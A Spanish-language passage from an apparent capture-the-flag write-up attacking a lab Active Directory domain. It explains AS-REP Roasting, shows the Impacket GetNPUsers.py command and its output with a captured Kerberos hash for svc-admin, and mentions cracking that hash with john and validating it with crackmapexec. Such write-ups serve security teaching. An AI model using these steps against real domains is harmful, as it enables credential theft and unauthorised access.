 >  Al ejecutar un ataque de fuerza bruta a kerberos es posible bloquear cuentas de usuario del dominio objetivo

Se ha encontrado 16 usuarios válidos.  

Lo siguiente es probar si alguno de estos usuarios es vulnerable al atque **ASREP Roasting**

### ASREP Roast

> ASREP Roasting ocurre cuando una cuenta de usuario tiene el privilegio establecido "Does not require Pre-Authentication", quiere decir que la cuenta **NO** necesita proporcionar una identificación válida antes de solicitar un Ticket Kerberos.

`GetNPUsers.py` es un script de impaket que nos ayudará a recolectar mensajes AS_REP sin pre-autenticación.

```
❯ GetNPUsers.py spookysec.local/ -no-pass -usersfile usersFound.txt
[-] User james doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:028b70ff59e26daf53850da8207bf3d7$aebdeae0daec7e12d0d398174d8e010aba0147ef3f8a1a951629ef004f0ee38936f42e8268b472a4c4d4f8da9bed4d5c1f14620f180c519318addfe25eae81a8720c13c6f225c96f9d4121e09a7c2c63027bcb9206cd9433ab159aeb226b51141da2157323d8cd57d5218870b18588fd8494011c51844af80c14a657461cbbad34ddea7978f4608d9c04a818dbdfef1d9110a3076959ecfd5dd804f72ad932eaa6cc1d73d3d007c6a00801b7e2fb9239acee0b0bea212103f8b7bc0e240b2977dde71d4c916641617cf4b43a7acc0a19ede934667ef36cfd369d1edd3ef4a526b786ac796a6b7ccd2ab86b6c39d463e21394
[-] User James doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User robin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User darkstar doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User backup doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User paradox doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User JAMES doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Robin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Darkstar doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Paradox doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User DARKSTAR doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ori doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ROBIN doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Obtenido el hash del usuario `svc-admin` aplico fuerza bruta para obtener la contraseña.

![john](/assets/imgs/ada/john.png)

Con la herramienta `crackmapexec` podemos validar si el usuario encontrado es correcto o es un falso positivo.
